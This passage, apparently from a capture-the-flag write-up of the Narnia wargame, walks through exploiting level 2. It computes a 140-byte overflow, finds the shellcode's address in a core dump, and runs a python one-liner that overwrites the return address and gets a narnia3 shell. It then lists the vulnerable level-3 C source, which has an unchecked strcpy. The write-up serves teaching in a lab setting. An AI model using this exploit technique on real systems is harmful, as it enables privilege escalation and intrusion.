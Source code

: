 Thus, 140 bytes are needed until the return address at `0xffffd6ec` can be overwritten with our shellcode at `0xffffd8e2`. However, the length of our argument as well as the debugger itself can shift this address. A possible solution is to make the program segfault and then examine the core dump for the exact address of `SHELLCODE`:

```
narnia2@melinda:/tmp/doge2$ ulimit -c unlimited
narnia2@melinda:/tmp/doge2$ ./narnia2 $(python -c "print '\x41'*140 + '\xff'*4")
Segmentation fault (core dumped)
narnia2@melinda:/tmp/doge2$ gdb -q -c ./core
[New LWP 8717]
Core was generated by `./narnia2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0  0xffffffff in ?? ()
(gdb) x/4s $esp+0x250
0xffffd8f0:      "\377\377"
0xffffd8f3:      "SHELLCODE=1\300Ph//shh/bin\211\343P\211\342P\211\341\260\v\315\200"
0xffffd917:      "TERM=screen"
0xffffd923:      "SHELL=/bin/bash"
```

Now we can use the correct address of `SHELLCODE` (`0xffffd8fd`) in our exploit:

```
narnia2@melinda:/narnia$ ./narnia2 $(python -c "print '\x41'*140 + '\xfd\xd8\xff\xff'")
$ whoami
narnia3
```

Level 3:
--------

```
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];

    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
    }

    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }
    
    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
```